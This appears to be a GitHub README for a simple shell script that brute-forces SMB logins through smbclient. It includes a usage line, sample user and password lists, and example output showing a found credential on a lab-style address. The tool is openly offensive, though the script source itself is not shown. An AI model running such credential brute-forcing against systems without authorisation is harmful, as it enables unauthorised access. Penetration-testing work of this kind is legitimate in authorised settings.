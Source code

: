 # VSSB
Very simple SMB brute force\
\
Some complex tool may fail sometimes.\
This script just tries to login via "smbclient".\
\
`usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123`
\
\
Considering the following file (containing a list of users):\
`
kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith  
luca
`

and the following file (containing a list of passwords):
`
kali@kali:~/Desktop$ cat pwds.txt  
123456
sandro
omg123!!!
Thestrokes23  
pippo
password  
`
you can use the scripts as follows:
`
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
`

